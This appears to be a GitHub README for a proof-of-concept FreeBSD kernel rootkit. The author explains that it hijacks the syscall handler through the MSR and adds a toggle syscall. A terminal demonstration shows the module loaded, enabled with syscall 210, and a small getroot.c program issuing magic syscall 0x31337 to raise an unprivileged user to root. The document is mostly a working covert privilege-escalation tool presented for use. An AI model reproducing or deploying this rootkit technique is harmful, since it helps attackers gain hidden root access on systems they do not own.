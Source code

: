 This is a POC for a *rootkit* that I wrote a long time ago that overwrites the MSR and hijack the original syscall handler in order to provide a 'hide' way to escalate the privileges. Additionally, the rootkit adds a new syscall that was created to handle the rootkit. This new syscall receives one argument, 1 or 0, enabling or disabling the rootkit.

Demonstration:
```
$ uname -a
FreeBSD rootkit 10.0-RELEASE FreeBSD 10.0-RELEASE #5: Wed Nov 26 17:05:04 BRT 2014     andersonc0d3@rootkit:/usr/obj/usr/src/sys/DEBUG  amd64
$ cat /etc/master.passwd
cat: /etc/master.passwd: Permission denied
$ id
uid=1001(andersonc0d3) gid=1001(andersonc0d3) groups=1001(andersonc0d3),0(wheel)
$ kldstat -v|grep rk.ko
 7    1 0xffffffff81a63000 2a0      rk.ko (./rk.ko)
$ perl -e 'syscall(210,1)'
$ cd rootkit_amd64
$ cat getroot.c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	
	printf("uid: %d\n",getuid());

	asm("mov $0x31337,%rax");
	asm("syscall");

	return 0;
}
$ ./getroot
uid: 1001
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
$
```
